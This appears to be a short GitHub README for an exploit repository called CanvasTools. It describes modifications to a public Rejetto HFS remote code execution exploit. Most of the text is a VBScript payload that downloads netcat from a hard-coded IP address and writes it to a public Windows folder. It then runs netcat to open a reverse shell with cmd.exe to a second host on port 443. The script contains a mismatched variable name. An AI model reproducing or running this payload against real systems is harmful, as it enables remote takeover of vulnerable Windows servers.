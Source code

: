 # CanvasTools

Series of updates for exploits
# Initial Access
## Updates
https://github.com/darkniyt/CanvasTools/wiki

### Updates to 39161.py:  https://github.com/darkniyt/CanvasTools/blob/main/39161.py
Source:  Rejetto HFS exploit:  https://www.exploit-db.com/exploits/39161
####  Includes below changes to respctive script.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.26.69/nc.exe", False
xHttp.Send
with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\Public\nc.exe", 2 '//overwrite
end with
Set objShell20= CreateObject("WScript.Shell")
objShell.Exec("C:\Users\Public\nc.exe -d 10.6.26.44 443 -e cmd.exe")

# Privelege Escalation 
